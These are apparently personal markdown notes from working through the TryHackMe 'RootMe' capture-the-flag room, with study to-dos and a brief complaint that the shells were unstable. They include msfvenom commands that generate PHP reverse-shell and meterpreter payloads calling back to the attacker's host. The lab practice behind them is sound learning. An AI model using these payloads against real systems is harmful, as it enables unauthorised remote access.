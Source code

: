 # R

* Remember for web/general/security
* .todo: metasploit dns sqlmap
* .todo: windows Linux web shell
* web general | terminology | URL may have to be moved
* explose hacking_process

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups
